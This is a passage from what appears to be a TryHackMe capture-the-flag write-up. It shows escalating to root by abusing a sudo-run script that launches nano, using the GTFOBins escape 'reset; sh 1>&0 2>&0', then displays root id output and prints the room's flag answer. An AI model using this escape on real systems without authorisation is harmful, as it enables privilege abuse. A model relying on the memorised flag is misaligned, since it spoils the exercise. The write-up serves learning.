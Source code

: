 ```bash
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

Checking the executables called by this script against [gtfobins](https://gtfobins.github.io/gtfobins/nano/), we’ll see that `nano` can be used to spawn a shell, and since the rootkit script will be running as root, we’ll have ourselves a root shell!
1.  `sudo /bin/bash /opt/rootkit.sh`
2.  Enter `read` when prompted to start nano.
3.  Hit `Ctrl+R` followed by `Ctrl+X` — this will allow us to enter a single command to execute and will insert the output into the current file.
4.  We don’t want that, so running `reset; sh 1>&0 2>&0` will open a shell for us.
5.  From there we can capture the root flag!
```bash
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# wc -c root.txt
43 root.txt
```
**Answer:** THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}

# Takeaways
- Search every keyword that comes up in scans, even if you think you know what it is
- Keep uploads page open. It is very very useful to find uploaded exploits.
- Read through linpeas output to improve manual enumeration (for future)